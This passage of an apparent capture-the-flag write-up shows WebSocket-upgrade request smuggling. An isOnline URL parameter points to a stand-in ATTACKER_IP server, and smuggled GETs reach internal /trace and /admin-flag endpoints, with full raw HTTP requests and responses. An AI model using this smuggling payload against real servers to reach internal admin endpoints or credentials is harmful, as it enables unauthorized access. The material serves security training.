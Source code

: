 {{% tabs %}}
{{% tab "Request" %}}
```http
GET /isOnline?url=http://ATTACKER_IP:8000/ws HTTP/1.1
Host: MACHINE_IP:8080
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /trace HTTP/1.1
Host: MACHINE_IP:8080

 
```
{{% /tab %}}

{{% tab "Response" %}}
```http
HTTP/1.1 101 
Server: nginx
Date: Fri, 07 Mar 2025 21:10:50 GMT
Connection: upgrade
X-Application-Context: application:8081

HTTP/1.1 200 
X-Application-Context: application:8081
Content-Type: application/json;charset=UTF-8
Transfer-Encoding: chunked
Date: Fri, 07 Mar 2025 21:10:50 GMT

13bc
[{"timestamp":1741381850617,"info":{"method":"GET","path":"/isOnline","headers":{"request":{"upgrade":"WebSocket","connection":"Upgrade","host":"localhost:8002","sec-websocket-key":"nf6dB8Pb/BLinZ7UexUXHg==","sec-websocket-version":"13"},"response":{"X-Application-Context":"application:8081","Date":"Fri, 07 Mar 2025 21:10:50 GMT","status":"101"}}}},{"timestamp":1741381841023,"info":{"method":"GET","path":"/admin-creds","headers":{"request":{"host":"0.0.0.0:8081","user-agent":"Wget","connection":"close"},"response":{"X-Application-Context":"application:8081","Content-Type":"text/plain","Content-Length":"55","Date":"Fri, 07 Mar 2025 21:10:40 GMT","Connection":"close","status":"200"}}}},{"timestamp":1741381840973,"info":{"method":"GET","path":"/admin-flag","headers":{"request":{"host":"0.0.0.0:8081","user-agent":"Wget","connection":"close"},"response":{"X-Application-Context":"application:8081","Content-Type":"text/plain","Content-Length":"43","Date":"Fri, 07 Mar 2025 21:10:40 GMT","Connection":"close","status":"200"}}}}, ...SNIP...]
0


```
{{% /tab %}}
{{% /tabs %}}

And smuggling request to `/admin-flag` reveals the first flag:

{{% tabs %}}
{{% tab "Request" %}}
```http
GET /isOnline?url=http://ATTACKER_IP:8000/ws HTTP/1.1
Host: MACHINE_IP:8080
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /admin-flag HTTP/1.1
Host: MACHINE_IP:8080

 
```